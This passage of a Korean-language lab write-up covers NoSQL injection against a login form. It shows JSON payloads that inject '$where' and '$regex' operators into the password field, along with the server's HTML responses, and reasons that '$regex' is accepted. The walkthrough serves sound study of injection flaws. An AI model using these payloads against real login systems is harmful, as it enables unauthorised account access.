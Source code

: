 ```json
{"username":"carlos","password":"peter", "$where":"0"}
{"username":"carlos","password":"peter", "$where":"1"}
```

다음과 같은 응답이 돌아왔다. 일부 발췌한 내용이다. `Invalid username or password`가 표시된다. 

```html
                   <section>
                        <p class=is-warning>Invalid username or password</p>
                        <form class=login-form method=POST action="/login">
                            <label>Username</label>
                            <input required type=username name="username" autofocus>
                            <label>Password</label>
                            <input required type=password name="password">
                            <a href=/forgot-password>Forgot password?</a>
                            <br/>
                            <button class=button onclick="event.preventDefault(); jsonSubmit('/login')"> Log in </button>
                            <script src='/resources/js/login.js'></script>
                        </form>
                    </section>
```

두 개 페이로드를 사용했을 때 서버측 응답에 차이는 없었다. (완벽히 동일했다.) 

### `$regex` 오퍼레이터 사용가능한지 테스트
`$regex` 오퍼레이터를 사용한 다음 페이로드는 어떨까? 만약 사용했을 때와 사용하지 않았을 때 응답이 다르면 regex `$regex` 오퍼레이터를 사용할 수 있다고 볼 수 있다. 

```json
{"username":"carlos","password":{"$regex":"^.*"}}
```

이번에는 다음과 같은 응답이 돌아왔다.  `Account locked: please reset your password` 가 표시된다.  

```html
                   <section>
                        <p class=is-warning>Account locked: please reset your password</p>
                        <form class=login-form method=POST action="/login">
                            <label>Username</label>
                            <input required type=username name="username" autofocus>
                            <label>Password</label>
                            <input required type=password name="password">
                            <a href=/forgot-password>Forgot password?</a>
                            <br/>
                            <button class=button onclick="event.preventDefault(); jsonSubmit('/login')"> Log in </button>
                            <script src='/resources/js/login.js'></script>
                        </form>
                    </section>
```

계정이 잠겨버린 것일까? 그러나 일반적인 로그인 페이로드를 사용해서 다시 요청을 보내보면 다시 `Invalid username or password`가 표시된다. 실제로 계정이 잠긴 것은 아닌 것 같다. `$regex` 오퍼레이터를 사용가능한 것으로 보인다. 
